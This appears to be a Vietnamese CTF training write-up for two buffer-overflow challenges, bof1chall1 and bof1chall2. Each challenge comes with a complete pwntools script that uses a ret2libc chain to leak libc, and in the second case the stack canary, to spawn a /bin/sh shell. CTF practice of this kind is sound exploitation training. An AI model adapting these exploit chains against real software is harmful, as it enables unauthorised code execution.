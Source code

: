 # Training
<details>
<summary>1. bof1chall1 </summary>
	
- Bài cho ta 1 file binary
- Đầu tiên ta checksec

![](https://i.imgur.com/r0ePODu.png)

- Tiếp theo vào IDA coi thì thấy có lỗi buffer overflow ở cả 2 biến `buf` và `v6`

![](https://i.imgur.com/Xq2Uj29.png)

- Bài không có canary nên ta chỉ cần tìm padding để overwrite ret của `main` bằng pop_rdi leak libc ra các thứ đưa về dạng sgk ret2libc thôi. Để thoát ra thì cần nhập 3.
- Script: 
```python
from pwn import *
exe = ELF("bof4chall1")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
p = process(exe.path)
pop_rdi_ret = 0x0000000000401463

payload = b'a'*88  + p64(pop_rdi_ret) + p64(exe.got['puts']) + p64(exe.plt['puts'])+p64(exe.sym['main'])

p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'song: ',b'a')
p.sendlineafter(b'URL: ',payload)
p.sendlineafter(b'> ',b'3')

leak = u64(p.recvline()[:-1] + b'\x00\x00')
libc.address=leak-528080

payload = b'a'*88  + p64(pop_rdi_ret) +p64(next(libc.search(b'/bin/sh')))+p64(0x000000000040101a)+ p64(libc.sym['system'])

p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'song: ',b'a')
p.sendlineafter(b'URL: ',payload)
p.sendlineafter(b'> ',b'3')


p.interactive()
```
</details>

<details>
<summary>2. bof1chall2 </summary>
    
- Bài cho ta 1 file binary
- Đầu tiên ta checksec
    
![](https://i.imgur.com/SpgymX1.png)

- Tiếp theo vào IDA để xem thử. Nhận thấy có lỗi buffer overflow quá lộ ở hàm `vuln

![](https://i.imgur.com/qXDhSjI.png)

- Bài này thì canary bật và ta lợi dụng hàm `puts` để `leak`. Ta cần tìm padding tới canary rồi padding nhiêu đó để puts leak
- Tiếp theo leak được thì đưa về dạng sgk ret2libc như trên.

```python
from pwn import *
exe = ELF("bof4chall2")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p = process(exe.path)
p.sendlineafter(b'name ?\n',b'a'*17)
p.recvuntil(b'\x0a')
leak = u64(b'\x00'+ p.recvn(7))
print(hex(leak))
pop_rdi_ret = 0x00000000004013b3
payload = b'a'*8 + p64(leak) + b'a'*40+ p64(pop_rdi_ret) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'])

p.sendlineafter(b'rop ?\n',payload)
p.recvuntil(b'enabled?\n')
libc_leak = u64(p.recvline()[:-1] + b'\x00\x00')
libc.address = libc_leak - 528080

p.sendlineafter(b'name ?\n',b'a')
payload = b'a'*8 + p64(leak) + b'a'*40+ p64(pop_rdi_ret)+p64(next(libc.search(b'/bin/sh')))+p64(0x000000000040101a)+ p64(libc.sym['system'])
p.sendlineafter(b'rop ?\n',payload)
p.interactive()
```
</details>
